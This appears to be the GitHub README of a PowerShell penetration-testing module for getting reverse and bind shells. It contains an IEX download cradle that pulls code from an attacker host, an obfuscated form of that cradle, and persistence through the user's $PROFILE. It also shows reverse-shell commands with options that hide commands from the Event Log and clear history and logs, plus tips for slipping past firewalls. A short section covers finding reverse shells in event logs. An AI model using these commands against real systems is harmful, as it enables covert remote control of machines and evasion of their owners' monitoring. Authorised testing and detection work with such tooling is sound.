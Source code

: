 # ReversePowerShell
__See "Command Usage:" section below for command usage details__
### [NOW IN POWERSHELL GALLERY!!!](https://www.powershellgallery.com/packages/ReversePowerShell/1.3.2)
```powershell
# Install Module
Install-Module ReversePowerShell

# Update Module
Update-Module -Name ReversePowerShell
# OR
Install-Module ReversePowerShell -Force
```
---

Functions that can be used to gain Reverse Shells with PowerShell. Invoke-ReversePowerShell function can be used to connect to Start-Listener as well as netcat and Metasploit modules or whatever other listeners you use. This is a PowerShell module meaning it only contains functions/cmdlets to be imported into a PowerShell session. If you wish to execute one of the commands whenever the file is run just add the command you wish to execute to the bottom of the file.

#### BLUE TEAM DISCOVERY
Find-ReverseShell.ps1 can be used to search the Windows Event Log for when a Reverse Shell is created that uses a System.Net.Sockets.TcpListener object. This will discover any reverse shell that creates a TcpListener object and not just the below module. This method does not catch PowerCat.ps1 which I am still looking for a good way to discover. This part is still a work in progress.

#### WAYS TO INSTALL OR IMPORT THE MODULE
This is not a requirement. It just a way of saving the module to your device if you wish to keep it around for use at later times.<br>
Install this module by placing the cloned folder "__ReversePowerShell__" inside the following directory location. You can view all available Module install directories by issung the command ```$env:PSModulePath```<br>
 __"$env:USERPROFILE\\WindowsPowerShell\\Modules\\ReversePowerShell"__ <br>
 For PowerShell Core v6 the location of this module will need to be<br>
 __"$env:USERPROFILE\\WindowsPowerShell\\ReversePowerShell"__<br>

Once there it can be imported into a PowerShell session using the following command.
```powershell
Import-Module ReversePowerShell
```
Or in cases where you want to import the module from whatever file you are in...
```powershell
Import-Module .\ReversePowerShell.psm1
```

If your are able to use Invoke-Expresion (IEX), this module (ReversePowerShell) can be imported using the following command.
You can also copy and paste the functions into your PowerShell session so the cmdlets become available to run.
Notice the .ps1 extension. When using downloadString this will need to be a ps1 file to inject the module into
memory in order to run the cmdlets.
```powershell
IEX (New-Object -TypeName Net.WebClient).downloadString("http://<attacker ipv4>/ReversePowerShell.ps1")

# To obfuscate the above command you can do something like the below command
& (`G`C`M *ke-E*) (& (`G`C`M *ew-Ob*) `N`E`T`.`W`E`B`C`L`I`E`N`T)."`D`O`W`N`L`O`A`D`S`T`R`I`N`G"('htt'+'p://'+'127.0.0.1/ReversePowerShell.ps1')
```

IEX is blocked from users in most cases and Import-Module is monitored by things such as ATP. Downloading files to a target machine is not always allowed in a penetration test. Another method to use is Invoke-Command. This can be done using the following format.
```powershell
Invoke-Command -ComputerName <target device> -FilePath .'\ReversePowerShell.ps1m' -Credential (Get-Credential)
```
This will execute the file and it's contents on the remote computer.

Another sneaky method would be to have the function load at the start of a new PowerShell window. This can be done by editing the $PROFILE file.
```powershell
Write-Verbose "Creates powershell profile for user"
If (!(Test-Path -Path $PROFILE)) { New-Item -Path $PROFILE -ItemType File -Force }
#
# The $PROFILE VARIABLE IS EITHER GOING TO BE
#    - C:\Users\<username>\Documents\WindowsPowerShell\Microsoft.PowerShell_profile.ps1
# OR
#    - C:\Users\<username>\OneDrive\Documents\WindowsPowerShell\Microsoft.PowerShell_profile.ps1
#
> Adding this module into the PowerShell $PROFILE will import all of the commands every time the executing user opens a PowerShell session. This means you will need to open a new PowerShell session after doing this in order to access the commands. Just like using ```source .bashrc``` to apply changes to the ~/.bashrc file in a linux terminal you can reload the profile by doing the following.
```powershell
cmd /c 'copy \\<attacker ip>\MyShare\ReversePowerShell.ps1 $env:USERPROFILE\Documents\WindowsPowerShell\Microsoft.PowerShell_profile.psm1
powershell.exe # Maybe but not sure on this one
& $PROFILE
```

# Command Usage:

#### START BIND SHELL
The below command can be executed to start a bind shell that connects the defined port to PowerShell.
This command binds PowerShell to port 8088. Invoke-ReversePowerShell, netcat, ncat, metasploit, and other tools can be used to connect to this bind shell. You are able to use Ctrl + C to cancel the bind listener.
```powershell
Start-Bind -Port 8088
```

#### START LISTENER
The below command was executed to start a listener on the Attack machine on port 8089. This can be
connected too using Invoke-ReversePowerShell as well as ncat, netcat, metasploit, and other tools.
The listener can be stopped or canceld by doing Ctrl + C.
```powershell
Start-Listener -Port 8089
```

### INVOKE-REVERSEPOWERSHELL USAGE INFORMATION
__SPECIAL FEATURES OF INVOKE-REVERSEPOWERSHELL__
- __Re-Connect Loop__ This cmdlet automatically attempts to reconnect to a listener if a session get disconnected. As long as the powershell process is running it will attempt to connect back to a listener every 30 seconds. In available situations a 30 second timer is displayed. The countdown timer can be viewed in the image below.
![Reconnection Timer Loop](https://raw.githubusercontent.com/tobor88/ReversePowerShell/master/images/ReconnectTimer.png)
- __Obfuscation__ parameter can be used to obfuscate executed commands using Base64. The Event Viewer will show logs such as the ones in the below image when this parameter is defined.
![Obfuscation in Event Viewer](https://raw.githubusercontent.com/tobor88/ReversePowerShell/master/images/PSObfuscatedEventLog.png)
- __Clear History__ parameter can be used to clear the current sessions command history and log file. The purpose of this is to help keep clear text passwords from appearing in log files.

#### ISSUE REVERSE SHELL CONNECTION
The below command is to be issued on the Target Machine. The below command connected to the listener over port 8089.
```powershell
Invoke-ReversePowerShell -IpAddress 192.168.0.10 -Port 8089
# OR
# Including the default parameter set name issue the below command
Invoke-ReversePowerShell -Reverse -IpAddress 192.168.0.10 -Port 8089
```

In the below command the listening port 8089 on 192.168.0.10 is connected too. When the session is exited the -ClearHistory parameter specified attempts to clear your sessions command history as well as clear the powershell log file.
```powershell
Invoke-ReversePowerShell -IpAddress 192.168.0.10 -Port 8089 -ClearHistory
# OR
# Including the default parameter set name issue the below command
Invoke-ReversePowerShell -Reverse -IpAddress 192.168.0.10 -Port 8089 -ClearHistory
```

The below command is to be issued on the Target Machine. The below command connected to the listener over port 8089. The -Obfuscate parameter obfuscates the commands executed using Base64 so they do not appear in clear text in the Event Log.
```powershell
Invoke-ReversePowerShell -IpAddress 192.168.0.10 -Port 8089 -Obfuscate
# OR
# Including the default parameter set name issue the below command
Invoke-ReversePowerShell -Reverse -IpAddress 192.168.0.10 -Port 8089 -Obfuscate
```

#### ISSUE BIND SHELL CONNECTION
The below command is used to connect to a listening Bind Shell port. Any of the special parameters can be used to with the Bind parameter set name as well.
```powershell
Invoke-ReversePowerShell -Bind -IpAddress 192.168.0.10 -Port 8089
```

#### FIND EVIDENCE OF REVERSE SHELL CONNECTION
```powershell
# Check the localhost for evidence of reverse shell in the event logs
Find-ReversePowerShell

# Checks remote computer DC01 for evidence of a shell connection and saves the event results to C:\Temp\results.xml
Find-ReverseShell -ComputerName DC01.domain.com -FilePath C:\Temp\Results.xml
```

---
# MISC INFO
#### FIREWALL AND BLOCKED PORTS
If you are not able to gain a connection it is most likely due to the Windows Firewall. If you have access on a machine as a user you will not be able to make firewall changes. You need admin priviledges for that. Use the high range ports RPC would connect to or other common port. If a range has been defined you can find the allowed ports at "HKLM:\Software\Microsoft\Rpc\Internet\ with Entry name Data Type". Otherwise when not defined any ports between 49152-65535 might work.
This command may also display the port allowed RPC port range
```cmd
netsh int ipv4 show dynamicport tcp
```

The following commands can be used to view firewall rules. If one of these does not work.
the other might.
```powershell
# This way should work to display the firewall even if you are a user
$FirewallRule = New-Object -ComObject HNetCfg.FwPolicy2
$FirewallRule.Rules | Select-Object -Property *

# OR
Get-NetFirewallRule | Where-Object { $_.Enabled –eq ‘True’ –and $_.Direction –eq ‘Inbound’ }
Show-NetFirewallRule

# OR
cmd /c netsh advfirewall firewall show rule name=all
```

#### VERIFY LISTENING PORTS
You can verify/view actively listening ports on the target computer by issuing the following command.
```powershell
Get-NetTcpConnection -State Listen
```
or if you are a command prompt kind of person;
```powershell
netstat -q
```
